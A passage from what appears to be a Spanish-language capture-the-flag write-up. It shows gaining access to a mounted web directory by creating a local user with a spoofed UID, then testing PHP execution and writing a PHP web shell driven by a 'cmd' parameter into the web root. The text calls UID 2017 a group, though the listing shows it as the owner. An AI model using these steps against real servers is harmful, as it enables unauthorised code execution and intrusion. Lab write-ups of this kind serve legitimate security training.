 ```
$ cd web-html 
cd: permiso denegado: web-html
```

Si listamos por permisos y propietarios de la montura del servidor web, veremos que solamente los usuarios que estén en el grupo "2017" tienen acceso.

```
$ ls -la .
drwxrwxrwt 19 root root     4096 ene 29 03:09 .
drwxr-xr-x 19 root root     4096 ene 27 13:42 ..
drwxr-xr-x 14 1001     1001 4096 ene 27 03:32 home-ross
drwxr-xr--  5 2017 www-data 4096 ene 29 03:05 web-html
```

Vamos a crear un usuario de prueba y lo agregaremos al grupo "2017"

```sh
$ sudo adduser test
$ sudo usermod -u 2017 test
$ su test                  
$ id
uid=2017(test) gid=1001(test) grupos=1001(test),100(users)
```

Ahora si intentamos ingresar al recurso veremos que podemos.

```sh
$ cd web-html/
$ ls
css  images  index.html  js
```

# Ganada de acceso

Al parecer en esta montura está conectada al servidor web del puerto 80 de la máquina víctima, intentemos crear un archivo de prueba para ver si se refleja en la web.

```
$ echo "Test" > test.txt
```

<img src="test-txt.png">

Vamos a intentar subir un archivo en PHP, para ver si se interpreta.

```
$ echo '<?php echo "PHP Enabled"; ?>' > test.php
```

<img src="test-php.png">

Genial, como vemos la página interpreta código PHP, vamos a subir un archivo el cual nos permita ejecutar comandos mediante el parametro "?cmd" para así ganar acceso a la máquina.

```
$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > cmd.php
```
